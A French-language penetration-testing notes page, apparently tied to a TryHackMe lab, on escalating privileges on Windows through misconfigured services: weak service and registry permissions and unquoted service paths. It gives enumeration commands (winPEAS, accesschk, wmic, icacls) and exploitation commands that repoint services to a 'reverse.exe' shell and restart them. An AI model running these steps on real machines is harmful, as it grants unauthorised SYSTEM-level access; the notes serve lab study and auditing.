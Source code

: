 ```yaml
---
public: true
---
```


**Détails de Recherche de vecteur d'escalade via des services : [[Weak Permissions]]**

Exercices détaillant de nombreuses méthodes de privesc : <https://tryhackme.com/room/windows10privesc>

## Trouver un service vulnérable (automatique)

`WinPeas` identifie tous les services vulnérables.

Il faut regarder les sections suivantes :

```shell
# Information sur les services
===============(Services Information)=============

# Information sur les Applications (à recouper avec les chemin d'accès des services)
===========(Applications Information)================
```

## Permissions de modifier un service

Si on peut modifier un service, on pourra remplacer le processus lancé par un reverse shell.

### Detection

#### Manuelle

```shell
accesschk -accepteula -quwc daclsvc
daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW Everyone                          <====================
```

#### Automatique

Dans les résultats de la commande `.\winPEASany.exe quiet servicesinfo applicationsinfo` :

```shell
===============(Services Information)=============
 daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles       <=====
```

### Exploitation

```shell
# Changement du path du service
net stop daclsvc
sc config daclsvc binpath= "\"C:\Windows\Temp\reverse.exe\""
net start daclsvc
```

## Unquoted service path
### Détection
#### Manuelle

Enuméré les services, et selectioner ceux qui ne commencent pas par des guillemets.

Exemple avec le path : `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

```shell
# vérification avec icacls des différent chemins exploitables
"C:\Program Files\Unquoted Path Service\Common.exe"
"C:\Program Files\Unquoted.exe"
"C:\Program.exe"

# tenter de créer un fichier :
echo "test" > "C:\Program Files\Unquoted Path Service\Common.exe"
del "C:\Program Files\Unquoted Path Service\Common.exe"
# si pas d'erreur alors c'est exploitable

```

Remarque : On doit pouvoir le faire avec `icacls` ou `accesschk.exe` mais je n'ai pas pris le temps de creuser pour obtenir une méthode fiable.

#### Automatique

```shell
===============(Services Information)=============
[...]
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - 
No quotes and Space detected
   =================================================================================================                                <=====
[...]

=========(Applications Information)=======
[...]
C:\Program Files\Unquoted Path Service(Users [AllAccess])       <====
[...]
```

### Exploitation

```shell
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net stop unquotedsvc
net start unquotedsvc
```

## Weak registry permissions

### Detection

#### Manuelle

```shell
# trouver un groupe dont on est membre dans la liste fournie par la commande :
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

#### Automatique

```shell
==============(Services Information)===============
[...]
 LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
 daclsvc: WriteData/CreateFiles
```

### Exploitation

```shell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
net start regsvc
```

## Trouver un service vulnérable (manuel)

### Lister les services

Lorsqu'on liste les service, on recherche en priorité des **chemins d'accès atypiques** qui potentiellement  seront moins bien conçus que les services natif au système d'exploitation :

Hors du dossier `c:\windows`

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\*" }| Sort PathName |ft
```

```shell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Tous les services

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "C:\Windows\system32\svchost.exe *" }| Sort PathName |ft
```

### Regardes les permissions

#### Droits de modification d'éléments dans le path

Prenons l'exemple du service suivant :

```
C:\Program Files\Super Vendor\Great Product\superservice.exe
```

On cherchera si on peut créer les exécutables suivants :

- `C:\Program Files\Super Vendor\Great.exe`
- `C:\Program Files\Super.exe`
- `C:\Program.exe`

On vérifie donc les permission sur les dossiers parents de ces fichier potentiels :

```shell
# REMARQUE : pour les dossiers, il ne faut pas ajouter de "\" à la fin !
icacls "C:\Program Files\Super Vendor"
icacls "C:\Program Files"
icacls "C:\"
```

Exemple de permissions :

```shell
# peut créer des Dossiers MAIS PAS des fichiers
CREATOR OWNER:(OI)(CI)(IO)(F) 
# peut créer des dossiers ET des fichiers !! (exploitable)

CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```

#### Unquoted service path

Pour ce type de mauvaise configuration, on cherchera des services dont le chemin d'accès :

- n'est pas entouré de "doubles quotes" (guillemets)
- contient des dossier contenant des espaces dans leur nom

### Services en dehors de c:\windows\system32

```powershell
# démarrés ou non
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\System32\*" }|ft


# Rechercher des chemins d'accès atypiques 
get-wmiobject win32_service | select name,state, startmode,pathname,StartName |?{$_.State -like 'Running'}|Sort StartName | ft

  
# Liste des services sans ceux dans c:\windows :
get-wmiobject win32_service | select name,state,pathname |?{$_.State -like 'Running'} |? {$_.Pathname -notmatch 'c:\\Windows\\.*' }

# Vérifier les permissions
> icacls 'C:\Program Files\Ext2Fsd\Ext2Srv.exe'
C:\Program Files\Ext2Fsd\Ext2Srv.exe AUTORITE NT\Système:(I)(F)
                                     BUILTIN\Administrateurs:(I)(F)
                                     BUILTIN\Utilisateurs:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(I)(RX)

```

[Documentation icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

- A sequence of simple rights (basic permissions):
	- F - Full access
	- M - Modify access
	- RX - Read and execute access
	- R - Read-only access
	- W - Write-only access
- Inheritance rights may precede either `<perm>` form:
	- **(I)** - Inherit. ACE inherited from the parent container.
	- (OI)** - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
	- **(CI)** - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
	- **(IO)** - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
	- **(NP)** - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.
